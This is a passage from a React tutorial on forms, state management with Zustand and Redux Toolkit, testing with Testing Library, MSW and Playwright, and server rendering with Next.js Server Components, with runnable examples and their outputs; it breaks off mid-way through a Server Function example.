**React Hook Form** (RHF) keeps inputs **uncontrolled** (no re-render per keystroke), tracks errors, touched and dirty fields, and integrates **Zod** through `zodResolver`, so the same schema validates on the client and the server. It's the most-used form library for large or complex forms (wizards, dynamic field arrays).

**Validation rules of thumb:** validate on the client for fast feedback, **always** validate again on the server, show errors next to the field (with `aria-invalid` and `aria-describedby`), and don't show "required" errors before the user has had a chance to type.

### React

**`useActionState` + `useFormStatus`**: a newsletter form with a fake server call, a pending button and a server-side error:

```tsx
import { useActionState, useOptimistic, useState, act } from "react";
import { useFormStatus } from "react-dom";
import { render, screen, fireEvent } from "@testing-library/react";

const sleep = (ms: number) => new Promise(r => setTimeout(r, ms));
const subscribers = new Set(["taken@example.com"]);

type SubscribeState = { ok: boolean; message: string };

async function subscribeAction(_prev: SubscribeState, formData: FormData): Promise<SubscribeState> {
  const email = String(formData.get("email") ?? "").trim().toLowerCase();
  await sleep(30);                                            // pretend network call
  if (!email.includes("@")) return { ok: false, message: "Enter a valid email" };
  if (subscribers.has(email)) return { ok: false, message: "Already subscribed" };
  subscribers.add(email);
  return { ok: true, message: `Subscribed ${email}` };
}

function SubmitButton() {
  const { pending } = useFormStatus();                        // reads the parent <form>'s status
  return <button type="submit" disabled={pending}>{pending ? "Subscribing…" : "Subscribe"}</button>;
}

function Newsletter() {
  const [state, formAction] = useActionState(subscribeAction, { ok: false, message: "" });
  return (
    <form action={formAction}>
      <input name="email" aria-label="email" />
      <SubmitButton />
      <p role="status">{state.message}</p>
    </form>
  );
}

render(<Newsletter />);
async function submit(email: string) {
  fireEvent.change(screen.getByLabelText("email"), { target: { value: email } });
  fireEvent.click(screen.getByRole("button"));
  const pendingText = (await screen.findByText("Subscribing…")).textContent;
  await screen.findByRole("button", { name: "Subscribe" });
  console.log(`${email.padEnd(18)} → while pending: "${pendingText}" → ${screen.getByRole("status").textContent}`);
}
await submit("taken@example.com");
await submit("asha@example.com");
```

**Output:**

```text
taken@example.com  → while pending: "Subscribing…" → Already subscribed
asha@example.com   → while pending: "Subscribing…" → Subscribed asha@example.com
```

**`useOptimistic`**: a comment appears instantly (marked "sending…"), and is replaced by the saved version when the server answers:

```tsx
type Comment = { id: number; text: string; pending?: boolean };

function Comments() {
  const [comments, setComments] = useState<Comment[]>([{ id: 1, text: "Great chai!" }]);
  const [optimistic, addOptimistic] = useOptimistic(comments, (current, text: string) => [...current, { id: -1, text, pending: true }]);

  async function send(formData: FormData) {
    const text = String(formData.get("text"));
    addOptimistic(text);                                       // show immediately
    await sleep(40);                                           // server saves it
    setComments(c => [...c, { id: c.length + 1, text }]);      // real state
  }

  return (
    <div>
      <ul>{optimistic.map(c => <li key={c.id}>{c.text}{c.pending ? " (sending…)" : ""}</li>)}</ul>
      <form action={send}>
        <input name="text" aria-label="comment" />
        <button type="submit">Post</button>
      </form>
    </div>
  );
}

render(<Comments />);
fireEvent.change(screen.getByLabelText("comment"), { target: { value: "Ordering again" } });
fireEvent.click(screen.getByText("Post"));
await screen.findByText(/sending/);
console.log("immediately:", [...document.querySelectorAll("li")].map(li => li.textContent));
await screen.findByText("Ordering again");
console.log("after save: ", [...document.querySelectorAll("li")].map(li => li.textContent));
```

**Output:**

```text
immediately: [ 'Great chai!', 'Ordering again (sending…)' ]
after save:  [ 'Great chai!', 'Ordering again' ]
```

**React Hook Form + Zod**: one schema for types and validation; errors appear per field:

```tsx
import { useForm } from "react-hook-form";
import { zodResolver } from "@hookform/resolvers/zod";
import { z } from "zod";

const AddressSchema = z.object({
  name: z.string().trim().min(2, "Name is too short"),
  phone: z.string().regex(/^[6-9]\d{9}$/, "Enter a 10-digit mobile number"),
  pin: z.string().regex(/^\d{6}$/, "PIN must be 6 digits"),
  landmark: z.string().optional(),
});
type Address = z.infer<typeof AddressSchema>;

function AddressForm({ onSave }: { onSave: (a: Address) => void }) {
  const { register, handleSubmit, formState: { errors, isSubmitting } } = useForm<Address>({ resolver: zodResolver(AddressSchema) });
  return (
    <form onSubmit={handleSubmit(async data => { await sleep(10); onSave(data); })} noValidate>
      <input aria-label="name" {...register("name")} aria-invalid={!!errors.name} />
      {errors.name && <small role="alert">{errors.name.message}</small>}
      <input aria-label="phone" {...register("phone")} aria-invalid={!!errors.phone} />
      {errors.phone && <small role="alert">{errors.phone.message}</small>}
      <input aria-label="pin" {...register("pin")} aria-invalid={!!errors.pin} />
      {errors.pin && <small role="alert">{errors.pin.message}</small>}
      <button type="submit" disabled={isSubmitting}>Save address</button>
    </form>
  );
}

render(<AddressForm onSave={a => console.log("saved:", a)} />);
const type = (label: string, value: string) => fireEvent.input(screen.getByLabelText(label), { target: { value } });
type("name", "A");
type("phone", "12345");
fireEvent.click(screen.getByText("Save address"));
console.log((await screen.findAllByRole("alert")).map(e => e.textContent));
type("name", "Asha Rao");
type("phone", "9845012345");
type("pin", "411001");
fireEvent.click(screen.getByText("Save address"));
await screen.findByRole("button", { name: "Save address" });
await act(() => sleep(50));
```

**Output:**

```text
[
  'Name is too short',
  'Enter a 10-digit mobile number',
  'PIN must be 6 digits'
]
saved: { name: 'Asha Rao', phone: '9845012345', pin: '411001' }
```

**Common mistakes:**

- No pending state: users double-click and submit twice. Disable the button while pending.
- Showing only a generic "Something went wrong" for validation errors the server could explain per field.
- Optimistic UI without handling failure (with `useOptimistic`, the optimistic item disappears automatically if you don't commit it; show an error so the user knows).
- Different validation rules on client and server. Share the Zod schema.
- Controlled inputs for huge forms (every keystroke re-renders everything). RHF or uncontrolled inputs with actions avoid that.

### Practice

1. Change `subscribeAction` so that on error it also returns the email the user typed, and use it as the input's `defaultValue` so the text isn't lost when the form resets. Why is this needed with `<form action>`?

<details>
<summary><b>Answer</b></summary>

Return `{ ok: false, message, email }` and render `<input name="email" defaultValue={state.email} key={state.email} />` (the `key` makes React re-create the input with the new default). It's needed because React **resets** a form after an action completes (like a traditional HTML form submission), so on an error the user's input would otherwise be cleared. Returning submitted values in the action state is the standard pattern (and it works without JavaScript for Server Functions, too).

</details>

**Learn more:** [react.dev: useActionState](https://react.dev/reference/react/useActionState) · [react.dev: useOptimistic](https://react.dev/reference/react/useOptimistic) · [react.dev: useFormStatus](https://react.dev/reference/react-dom/hooks/useFormStatus) · [React Hook Form](https://react-hook-form.com/) · [Zod](https://zod.dev/)

---

## 24. Global State Management: Choosing Between Context, Zustand, Redux and Friends

### Theory

> **In simple words:** "state management" is about where **shared client state** lives: data many unrelated components read and change (cart, auth session, UI preferences, a multi-step editor's document). Most apps need much less global state than people think, because **server data** belongs in a query cache, **URL state** in the URL, and **form state** in the form. For what's left, pick the simplest tool that works.

**Decision guide (2026):**

| Situation | Choose |
|---|---|
| State used by one component or a small subtree | `useState` / `useReducer`, lifted to the common parent |
| Rarely changing, app-wide values (user, theme, locale) | **Context** |
| Frequently changing shared state, many readers, want minimal re-renders | **Zustand** (small, hooks-based, selectors) |
| Large app, big team, strict conventions, time-travel debugging, complex async flows | **Redux Toolkit** (+ RTK Query for server data) |
| Many small, independent pieces of state (atoms) derived from each other | **Jotai** |
| Complex flows with explicit states and transitions (checkout, onboarding, media player) | **XState** (state machines) |
| Server data | **TanStack Query** / framework loaders, not a global store |

**Selectors are the key to performance:** a component subscribes to **just the slice it uses** (`useCartStore(s => s.items.length)`), so it re-renders only when that slice changes, unlike a single big context where every consumer re-renders on any change.

**Keep stores boring:** store minimal state, derive the rest with selectors, keep actions next to the state they change, don't put server data or form input in them, and persist only what must survive reloads (with Zustand's `persist` middleware or Redux Persist).

### React

**Zustand**: a store is a hook. Components select only what they need; actions live in the store:

```tsx
import { create } from "zustand";
import { act } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

type Line = { sku: string; name: string; pricePaise: number; qty: number };
type CartStore = {
  lines: Line[];
  add: (item: Omit<Line, "qty">) => void;
  remove: (sku: string) => void;
  clear: () => void;
};

const useCart = create<CartStore>()(set => ({
  lines: [],
  add: item => set(state => {
    const found = state.lines.find(l => l.sku === item.sku);
    return {
      lines: found
        ? state.lines.map(l => (l.sku === item.sku ? { ...l, qty: l.qty + 1 } : l))
        : [...state.lines, { ...item, qty: 1 }],
    };
  }),
  remove: sku => set(state => ({ lines: state.lines.filter(l => l.sku !== sku) })),
  clear: () => set({ lines: [] }),
}));

// selectors (derived data)
const selectCount = (s: CartStore) => s.lines.reduce((n, l) => n + l.qty, 0);
const selectTotal = (s: CartStore) => s.lines.reduce((n, l) => n + l.qty * l.pricePaise, 0);

const renders: Record<string, number> = {};
function CartBadge() {
  renders.CartBadge = (renders.CartBadge ?? 0) + 1;
  const count = useCart(selectCount);
  return <span>🛒 {count}</span>;
}
function CartTotal() {
  renders.CartTotal = (renders.CartTotal ?? 0) + 1;
  const total = useCart(selectTotal);
  return <b>₹{total / 100}</b>;
}
function AddButtons() {
  renders.AddButtons = (renders.AddButtons ?? 0) + 1;
  const add = useCart(s => s.add);                 // actions never change → never re-renders
  return (
    <>
      <button onClick={() => add({ sku: "TEA", name: "Chai", pricePaise: 18000 })}>Add chai</button>
      <button onClick={() => add({ sku: "MUG", name: "Mug", pricePaise: 34900 })}>Add mug</button>
    </>
  );
}

render(<div><CartBadge /><CartTotal /><AddButtons /></div>);
fireEvent.click(screen.getByText("Add chai"));
fireEvent.click(screen.getByText("Add chai"));
fireEvent.click(screen.getByText("Add mug"));
console.log(screen.getByText(/🛒/).textContent, screen.getByText(/₹/).textContent, "| renders:", renders);

act(() => useCart.getState().remove("TEA"));       // stores work outside React too (tests, websockets)
console.log(useCart.getState().lines.map(l => `${l.name}×${l.qty}`));
```

**Output:**

```text
🛒 3 ₹709 | renders: { CartBadge: 4, CartTotal: 4, AddButtons: 1 }
[ 'Mug×1' ]
```

`AddButtons` rendered once; the badge and total re-rendered only when their selected values changed. `getState()` and `setState()` also make the store easy to use in tests and non-React code.

**Redux Toolkit in brief** (you'll meet it in many existing codebases). A **slice** bundles state, reducers and generated action creators; Immer lets reducers "mutate" safely:

<!-- no-run (requires @reduxjs/toolkit and react-redux; shown for reference) -->
```tsx
import { configureStore, createSlice, type PayloadAction } from "@reduxjs/toolkit";
import { Provider, useDispatch, useSelector } from "react-redux";

const cartSlice = createSlice({
  name: "cart",
  initialState: { lines: [] as { sku: string; qty: number }[] },
  reducers: {
    added(state, action: PayloadAction<string>) {
      const line = state.lines.find(l => l.sku === action.payload);
      if (line) line.qty++;                         // Immer turns this into an immutable update
      else state.lines.push({ sku: action.payload, qty: 1 });
    },
  },
});

export const store = configureStore({ reducer: { cart: cartSlice.reducer } });
type RootState = ReturnType<typeof store.getState>;

function Badge() {
  const count = useSelector((s: RootState) => s.cart.lines.length);
  const dispatch = useDispatch();
  return <button onClick={() => dispatch(cartSlice.actions.added("TEA"))}>🛒 {count}</button>;
}
// <Provider store={store}><Badge /></Provider>
```

**Common mistakes:**

- Putting **everything** in a global store (form inputs, server data, modal flags used by one component).
- Selecting the whole store (`useCart()` or `useCart(s => s)`) so every change re-renders the component.
- Selectors that return a **new** object/array each time (`s => ({ a: s.a, b: s.b })`) cause extra re-renders; select separately or use Zustand's `useShallow`.
- Duplicating server data in Redux/Zustand and trying to keep it in sync manually.

### Practice

1. Add a `persist`-like behaviour by hand: subscribe to the Zustand store and save `lines` to `localStorage` on every change (`useCart.subscribe`). Add an item and print what's in storage.

<details>
<summary><b>Answer</b></summary>

```tsx
localStorage.clear();
const unsubscribe = useCart.subscribe(state => localStorage.setItem("cart", JSON.stringify(state.lines)));
useCart.getState().add({ sku: "KET", name: "Kettle", pricePaise: 149900 });
console.log(localStorage.getItem("cart"));
unsubscribe();
```

**Output:**

```text
[{"sku":"MUG","name":"Mug","pricePaise":34900,"qty":1},{"sku":"KET","name":"Kettle","pricePaise":149900,"qty":1}]
```

In real apps use Zustand's `persist` middleware (`create(persist(fn, { name: "cart" }))`), which also handles loading the saved state on startup and versioning.

</details>

**Learn more:** [Zustand](https://zustand.docs.pmnd.rs/) · [Redux Toolkit](https://redux-toolkit.js.org/) · [Jotai](https://jotai.org/) · [XState](https://stately.ai/docs/xstate) · [react.dev: Managing state](https://react.dev/learn/managing-state)

---

## 25. Testing React Apps: Testing Library, User Events, MSW and Playwright

### Theory

> **In simple words:** good React tests **use the app like a user would**: find the button by its label, click it, type into the field, and check what appears on screen. They don't check internal state or implementation details, so you can refactor freely as long as the behaviour stays the same. You've been doing exactly this in every example of these notes.

**The testing stack (2026):**

| Layer | Tool | What it checks |
|---|---|---|
| Unit (pure logic) | **Vitest** (or Jest) | Reducers, utilities, hooks (`renderHook`) |
| Component / integration | Vitest + **React Testing Library** + **user-event** in jsdom (or Vitest Browser Mode) | A component or screen behaves correctly for a user |
| Network mocking | **MSW** (Mock Service Worker) | Intercepts real `fetch` calls at the network level, the same mocks for tests, Storybook and local dev |
| End-to-end (E2E) | **Playwright** | The real app in real browsers: flows like sign-up and checkout |
| Visual / accessibility | Storybook + Chromatic, axe | Appearance and a11y regressions |

**Testing Library query priority** (use the first that works): `getByRole` (with `name`) → `getByLabelText` → `getByPlaceholderText` → `getByText` → `getByDisplayValue` → `getByAltText`/`getByTitle` → `getByTestId` (last resort).

| Query type | When nothing matches | Use for |
|---|---|---|
| `getBy…` | Throws | Things that should be there now |
| `queryBy…` | Returns `null` | Asserting something is **absent** |
| `findBy…` | Waits (async), throws on timeout | Things that appear after loading |

**`userEvent` vs `fireEvent`:** `fireEvent` dispatches one DOM event; **`userEvent`** simulates what a real user does (focus, keydown, input, keyup, click, including disabled checks), so prefer it in real tests: `const user = userEvent.setup(); await user.type(input, "chai")`.

**What to test:** the main user flows and business rules, edge cases (empty, error, loading), and bugs you've fixed (regression tests). What **not** to test: implementation details (state variable names, which hook was used), third-party libraries, and styles.

### React

A search component that calls an API, tested like a user, with the API mocked by **MSW** at the network level (the component's real `fetch` code runs):

```tsx
import { useActionState } from "react";
import { render, screen, cleanup } from "@testing-library/react";
import { userEvent } from "@testing-library/user-event";
import { http, HttpResponse, delay } from "msw";
import { setupServer } from "msw/node";
import assert from "node:assert/strict";

type Product = { sku: string; name: string };
type SearchState = { results: Product[] | null; error: string };

async function searchAction(_prev: SearchState, formData: FormData): Promise<SearchState> {
  try {
    const res = await fetch(`https://api.chaipoint.example/products?q=${encodeURIComponent(String(formData.get("q")))}`);
    if (!res.ok) throw new Error(`Search failed (${res.status})`);
    return { results: (await res.json()) as Product[], error: "" };
  } catch (e) {
    return { results: null, error: e instanceof Error ? e.message : "Search failed" };
  }
}

function ProductSearch() {
  const [state, formAction, isPending] = useActionState(searchAction, { results: null, error: "" });
  return (
    <form action={formAction}>
      <label htmlFor="q">Search products</label>
      <input id="q" name="q" />
      <button type="submit">Search</button>
      {isPending && <p>Searching…</p>}
      {state.error && <p role="alert">{state.error}</p>}
      {state.results && (state.results.length ? <ul>{state.results.map(p => <li key={p.sku}>{p.name}</li>)}</ul> : <p>No products found</p>)}
    </form>
  );
}

const server = setupServer(
  http.get("https://api.chaipoint.example/products", async ({ request }) => {
    const q = new URL(request.url).searchParams.get("q") ?? "";
    await delay(20);
    if (q === "boom") return new HttpResponse(null, { status: 500 });
    const all = [{ sku: "TEA-250", name: "Masala chai" }, { sku: "TEA-500", name: "Ginger tea" }];
    return HttpResponse.json(all.filter(p => p.name.toLowerCase().includes(q.toLowerCase())));
  }),
);
server.listen({ onUnhandledRequest: "error" });

async function test(name: string, fn: () => Promise<void>) {
  try { await fn(); console.log(`✓ ${name}`); } catch (e) { console.log(`✗ ${name}: ${(e as Error).message}`); }
  finally { cleanup(); }                                             // unmount between tests (Vitest does this for you)
}

await test("shows matching products", async () => {
  const user = userEvent.setup();
  render(<ProductSearch />);
  await user.type(screen.getByLabelText("Search products"), "tea");
  await user.click(screen.getByRole("button", { name: "Search" }));
  expectVisible(await screen.findByText("Searching…"));
  const items = await screen.findAllByRole("listitem");
  assert.deepEqual(items.map(i => i.textContent), ["Ginger tea"]);
  assert.equal(screen.queryByText("Searching…"), null);           // gone after loading
});

await test("shows an empty state", async () => {
  const user = userEvent.setup();
  render(<ProductSearch />);
  await user.type(screen.getByLabelText("Search products"), "coffee");
  await user.click(screen.getByRole("button", { name: "Search" }));
  assert.ok(await screen.findByText("No products found"));
});

await test("shows an error when the API fails", async () => {
  const user = userEvent.setup();
  render(<ProductSearch />);
  await user.type(screen.getByLabelText("Search products"), "boom");
  await user.keyboard("{Enter}");                                    // submitting with Enter works too
  assert.equal((await screen.findByRole("alert")).textContent, "Search failed (500)");
});

server.close();
function expectVisible(el: HTMLElement) { assert.ok(el.isConnected); }
```

**Output:**

```text
✓ shows matching products
✓ shows an empty state
✓ shows an error when the API fails
```

(A detail these tests caught while writing this section: an earlier version set a `loading` state with `setLoading(true)` **inside** the async form action. React runs actions as **transitions**, so state updates made inside them only appear when the whole action finishes, and "Searching…" never showed. `useActionState`'s `isPending` is the right tool.)

(In a real project each `test` is Vitest's `test()`/`it()`, `assert` is `expect(...)`, cleanup between tests is automatic, and MSW's `server.listen()`/`resetHandlers()`/`close()` go in `beforeAll`/`afterEach`/`afterAll`.)

A test that checks **implementation details** breaks on harmless refactors; a user-level test doesn't. This is why the tests above never look at `useState`, class names or component internals.

**End-to-end tests with Playwright** run the real app in real browsers:

<!-- no-run (needs a running app and Playwright) -->
```ts
// tests/checkout.spec.ts
import { test, expect } from "@playwright/test";

test("guest can buy a pack of chai", async ({ page }) => {
  await page.goto("/");
  await page.getByRole("link", { name: "Products" }).click();
  await page.getByRole("button", { name: "Add Masala chai" }).click();
  await page.getByRole("link", { name: /cart/i }).click();
  await page.getByLabel("Delivery PIN code").fill("411001");
  await page.getByRole("button", { name: "Place order" }).click();
  await expect(page.getByRole("heading", { name: /order confirmed/i })).toBeVisible();
});
```

**Common mistakes:**

- Testing implementation details (state values, instance methods, snapshot tests of huge HTML).
- `getByTestId` everywhere instead of accessible queries (and so missing accessibility bugs).
- Forgetting `await` with `findBy…` and `userEvent` calls.
- Mocking `fetch` or modules by hand in every test instead of MSW handlers shared across tests.
- Only E2E tests (slow, flaky) or only unit tests (miss integration bugs). Aim for many component/integration tests, a few E2E tests for critical flows.

### Practice

1. Write a test (using the `test` helper above): render `<ProductSearch />`, submit an **empty** search, and assert that both products are listed (the API returns everything for an empty query). Use `userEvent`.

<details>
<summary><b>Answer</b></summary>

```tsx
server.listen();
await test("empty search lists all products", async () => {
  const user = userEvent.setup();
  render(<ProductSearch />);
  await user.click(screen.getByRole("button", { name: "Search" }));
  const items = await screen.findAllByRole("listitem");
  assert.deepEqual(items.map(i => i.textContent), ["Masala chai", "Ginger tea"]);
});
server.close();
```

**Output:**

```text
✓ empty search lists all products
```

</details>

---

### ✅ Part 4 checkpoint

Without looking, can you:

- [ ] Set up React Router routes with layouts, params, search params, loaders, actions and error boundaries?
- [ ] Fetch and cache server data with TanStack Query, choose query keys, and invalidate after mutations?
- [ ] Build forms with `useActionState`, `useFormStatus`, `useOptimistic`, and React Hook Form + Zod?
- [ ] Choose between context, Zustand, Redux Toolkit and friends, and use selectors?
- [ ] Test components like a user with Testing Library, `userEvent` and MSW, and know when to write Playwright tests?

**Learn more:** [Testing Library: React](https://testing-library.com/docs/react-testing-library/intro/) · [user-event](https://testing-library.com/docs/user-event/intro) · [MSW](https://mswjs.io/) · [Vitest](https://vitest.dev/) · [Playwright](https://playwright.dev/)

---

# Part 5 — Advanced: Server Rendering and Modern React

> **Goal:** Choose rendering strategies and understand hydration, use Server Components and Next.js, keep UIs responsive with transitions, build streaming AI interfaces and secure React apps.  
> **You need:** Parts 1–4.

---

## 26. Rendering Strategies: CSR, SSR, SSG, ISR, Streaming and Hydration


### Theory

> **In simple words:** "rendering strategy" answers **where and when the HTML is produced**. In **client-side rendering (CSR)** the server sends an almost empty page and JavaScript builds the UI in the browser. In **server-side rendering (SSR)** the server runs your React components and sends **ready HTML**, so users see content sooner and search engines can read it; then the browser **hydrates** it: React attaches event handlers to the existing HTML to make it interactive.

| Strategy | HTML produced | Good for | Trade-offs |
|---|---|---|---|
| **CSR** (Vite SPA) | In the browser | Dashboards, internal tools, apps behind login | Blank screen until JS loads; weaker SEO |
| **SSR** | On the server, per request | Personalised pages, SEO + fresh data | Server cost per request; must hydrate |
| **SSG** (static generation) | At build time | Blogs, docs, marketing pages | Rebuild to update |
| **ISR** / revalidation | Static, regenerated in the background after N seconds or on demand | Product pages, content that changes occasionally | Briefly stale content |
| **Streaming SSR** | Server sends the page **shell** immediately and streams slow parts (inside `<Suspense>`) as they're ready | Pages mixing fast and slow data | Needs a streaming-capable host |
| **React Server Components** | Components that run **only** on the server; their code never ships to the browser | Data-heavy UI with little interactivity | New mental model (next section) |

**Hydration:** the browser receives HTML, loads the JavaScript, and React "adopts" the existing DOM (`hydrateRoot`) instead of re-creating it. The HTML the client renders **must match** the server's; differences (using `Date.now()`, `Math.random()`, `window` or `localStorage` during render) cause **hydration mismatch** errors. Fix by rendering client-only values in an effect, or with `suppressHydrationWarning` for things like timestamps.

**Core Web Vitals** measure the result: **LCP** (Largest Contentful Paint, ≤ 2.5 s: how fast the main content appears; SSR/SSG help), **INP** (Interaction to Next Paint, ≤ 200 ms: how fast the page reacts; less JavaScript and transitions help), **CLS** (Cumulative Layout Shift, ≤ 0.1: things not jumping around; reserve space for images).

**Frameworks do this for you:** Next.js, React Router framework mode and TanStack Start choose the strategy per route. The examples below show what happens underneath.

### React

**SSR + hydration by hand.** The "server" renders HTML with `renderToString`; the "browser" receives it, and `hydrateRoot` makes the **same DOM nodes** interactive:

```tsx
import { useState } from "react";
import { renderToString } from "react-dom/server";
import { hydrateRoot } from "react-dom/client";
import { act } from "react";
import { screen, fireEvent } from "@testing-library/react";

function ProductPage({ name, pricePaise }: { name: string; pricePaise: number }) {
  const [qty, setQty] = useState(1);
  return (
    <main>
      <h1>{name}</h1>
      <p>₹{(pricePaise * qty) / 100} for {qty}</p>
      <button onClick={() => setQty(q => q + 1)}>Add one</button>
    </main>
  );
}

// --- on the server ---
const props = { name: "Masala chai", pricePaise: 18000 };
const html = renderToString(<ProductPage {...props} />);
console.log("server HTML:", html);

// --- in the browser ---
const container = document.createElement("div");
container.innerHTML = html;                           // the page arrives with content already visible
document.body.appendChild(container);
const serverButton = container.querySelector("button");
fireEvent.click(serverButton!);                       // before hydration: nothing happens (no JS attached yet)
console.log("before hydration:", container.querySelector("p")!.textContent);

await act(async () => { hydrateRoot(container, <ProductPage {...props} />); });
fireEvent.click(screen.getByText("Add one"));
console.log("after hydration: ", container.querySelector("p")!.textContent, "| same button node:", container.querySelector("button") === serverButton);
```

**Output:**

```text
server HTML: <main><h1>Masala chai</h1><p>₹<!-- -->180<!-- --> for <!-- -->1</p><button>Add one</button></main>
before hydration: ₹180 for 1
after hydration:  ₹360 for 2 | same button node: true
```

**Streaming SSR**: the shell is sent at once, and the slow part (inside `<Suspense>`) arrives later in the same response. We read the stream chunk by chunk:

```tsx
import { Suspense, use } from "react";
import { renderToReadableStream } from "react-dom/server";

const reviewsPromise = new Promise<string[]>(r => setTimeout(() => r(["Lovely!", "Strong and fresh"]), 50));

function Reviews() {
  const reviews = use(reviewsPromise);
  return <ul>{reviews.map(r => <li key={r}>{r}</li>)}</ul>;
}

function StreamedPage() {
  return (
    <main>
      <h1>Masala chai</h1>
      <Suspense fallback={<p>Loading reviews…</p>}>
        <Reviews />
      </Suspense>
    </main>
  );
}

const stream = await renderToReadableStream(<StreamedPage />);
const reader = stream.getReader();
const decoder = new TextDecoder();
const started = Date.now();
let chunkNo = 0;
for (;;) {
  const { done, value } = await reader.read();
  if (done) break;
  const text = decoder.decode(value);
  chunkNo++;
  const at = Date.now() - started < 30 ? "immediately" : "after the data";
  console.log(`chunk ${chunkNo} (${at}):`, text.includes("<h1>") ? "shell with <h1> and the fallback" : text.includes("Lovely!") ? "the reviews HTML + a tiny script that swaps it in" : `${text.length} bytes`);
}
```

**Output:**

```text
chunk 1 (immediately): shell with <h1> and the fallback
chunk 2 (after the data): the reviews HTML + a tiny script that swaps it in
```

The user sees the heading and "Loading reviews…" immediately; the reviews replace the fallback as soon as they're ready, all in one HTTP response, without waiting for the slowest query.

**A hydration mismatch** and how to avoid it: render browser-only values after mounting:

```tsx
import { useEffect } from "react";

function Greeting() {
  const [hour, setHour] = useState<number | null>(null);       // same on server and first client render
  useEffect(() => setHour(new Date().getHours()), []);          // browser-only value after hydration
  if (hour === null) return <p>Welcome!</p>;
  return <p>{hour < 12 ? "Good morning" : "Hello"}!</p>;
}
console.log(renderToString(<Greeting />));
```

**Output:**

```text
<p>Welcome!</p>
```

**Common mistakes:**

- Reading `window`, `localStorage` or `Date.now()` during render in SSR apps (crash on the server or hydration mismatch).
- Choosing SSR for pages that could be static (SSG/ISR are cheaper and faster).
- Huge client bundles on SSR pages: fast first paint but slow interactivity (bad INP). Ship less JavaScript (Server Components, code splitting).
- One big Suspense boundary around everything, so streaming can't show anything early.

### Practice

1. For each page, pick a strategy: (a) company blog, (b) logged-in analytics dashboard, (c) e-commerce product page with price and stock, (d) search results page that must be indexed, (e) a live stock ticker widget.

<details>
<summary><b>Answer</b></summary>

(a) **SSG** (rebuild or revalidate on publish). (b) **CSR** or SSR without SEO needs; data fetched on the client with TanStack Query, behind login. (c) **ISR/revalidation** for the page (fast, SEO) with stock/price revalidated on demand when they change, or streamed via Suspense. (d) **SSR** (fresh per query, indexable), possibly streaming. (e) **Client-side** updates (WebSocket/SSE) inside an otherwise server-rendered page.

</details>

**Learn more:** [react.dev: Server React DOM APIs](https://react.dev/reference/react-dom/server) · [react.dev: hydrateRoot](https://react.dev/reference/react-dom/client/hydrateRoot) · [web.dev: Rendering on the web](https://web.dev/articles/rendering-on-the-web) · [web.dev: Core Web Vitals](https://web.dev/articles/vitals)

---

## 27. React Server Components, Server Functions and Next.js


### Theory

> **In simple words:** **React Server Components (RSC)** are components that run **only on the server** (at build time or per request). They can be `async`, `await` the database directly, read secrets, and send the browser only their **rendered result**, not their code. **Client Components** (files starting with `"use client"`) are the ones you've written so far: they run in the browser (and are also pre-rendered on the server) and can use state, effects and event handlers. A page mixes both: mostly server components, with small interactive "islands" of client components.

**Server vs Client Components:**

| | Server Component (default in Next.js App Router) | Client Component (`"use client"`) |
|---|---|---|
| Runs | Server only | Browser (and server for the first HTML) |
| Can be `async`, `await` data | ✅ | ❌ (use `use()` or a data library) |
| Access DB, file system, secrets | ✅ | ❌ never (the code ships to users) |
| `useState`, `useEffect`, event handlers | ❌ | ✅ |
| JavaScript sent to the browser | None | Yes |
| Can render the other kind | Can render client components (pass serialisable props) | Can't import server components, but can receive them as `children` |

**Server Functions** (`"use server"`, previously called Server Actions) are async functions that run on the server but can be **called from the client**, typically as a form's `action`. React sends a request under the hood. They're public endpoints: **always** authenticate, authorise and validate inside them.

**Next.js App Router** (the most-used RSC framework; version 16 in late 2025) maps folders to routes:

| File | Purpose |
|---|---|
| `app/page.tsx` | The page at `/` |
| `app/products/[sku]/page.tsx` | Dynamic route `/products/:sku` (`params` is a promise: `await params`) |
| `app/layout.tsx` | Shared layout (persists across navigation) |
| `app/loading.tsx` / `error.tsx` / `not-found.tsx` | Suspense fallback, error boundary and 404 for that segment |
| `app/api/orders/route.ts` | API route handlers (`GET`, `POST`) |
| `proxy.ts` (formerly `middleware.ts`) | Runs before requests: redirects, auth checks, headers |

**Caching** in Next.js 16 is opt-in with the `"use cache"` directive (on a page, component or function), `cacheLife()` for how long, and `cacheTag()` + `revalidateTag()`/`updateTag()` to refresh after data changes. Dynamic pages stream by default with Suspense.

**Other RSC frameworks:** React Router framework mode (RSC support), TanStack Start, Waku, and Redwood. Plain Vite apps stay client-rendered.

### React

These examples need a Next.js project, so they're shown as reference code (not run here). A product page: a **server component** fetches data directly; a small **client component** handles the interactive part; a **server function** handles the form:

<!-- no-run (Next.js App Router project) -->
```tsx
// app/products/[sku]/page.tsx  (Server Component: no "use client")
import { notFound } from "next/navigation";
import { Suspense } from "react";
import { db } from "@/lib/db";                      // server-only module: never shipped to the browser
import { AddToCartButton } from "./add-to-cart-button";
import { Reviews } from "./reviews";

export default async function ProductPage({ params }: { params: Promise<{ sku: string }> }) {
  const { sku } = await params;
  const product = await db.product.findUnique({ where: { sku } });   // query the DB directly
  if (!product) notFound();

  return (
    <main>
      <h1>{product.name}</h1>
      <p>₹{product.pricePaise / 100}</p>
      <AddToCartButton sku={product.sku} />          {/* interactive island */}
      <Suspense fallback={<p>Loading reviews…</p>}>
        <Reviews sku={product.sku} />                {/* async server component, streamed */}
      </Suspense>
    </main>
  );
}
```

<!-- no-run (Next.js App Router project) -->
```tsx
// app/products/[sku]/add-to-cart-button.tsx  (Client Component)
"use client";
import { useActionState } from "react";
import { addToCart } from "./actions";

export function AddToCartButton({ sku }: { sku: string }) {
  const [state, formAction, isPending] = useActionState(addToCart, { message: "" });
  return (
    <form action={formAction}>
      <input type="hidden" name="sku" value={sku} />
      <button disabled={isPending}>{isPending ? "Adding…" : "Add to cart"}</button>
      <p role="status">{state.message}</p>
    </form>
  );
}
```

<!-- no-run (Next.js App Router project) -->
```ts
// app/products/[sku]/actions.ts  (Server Functions)
"use server";
import { z } from "zod";
import { updateTag } from "next/cache";
import { auth } from "@/lib/auth";
import { db } from "@/lib/db";

const Input = z.object({ sku: z.string().regex(/^[A-Z]+-\d+$/) });

export async function addToCart(_prev: { message: string }, formData: FormData) {
  const session = await auth();                                  // 1. authenticate: this is a public endpoint
  if (!session) return { message: "Please log in" };
  const parsed = Input.safeParse({ sku: formData.get("sku") });  // 2. validate
  if (!parsed.success) return { message: "Invalid product" };
  await db.cartItem.upsert({                                     // 3. authorise by scoping to the user
    where: { userId_sku: { userId: session.userId, sku: parsed.data.sku } },
    update: { qty: { increment: 1 } },
    create: { userId: session.userId, sku: parsed.data.sku, qty: 1 },
  });
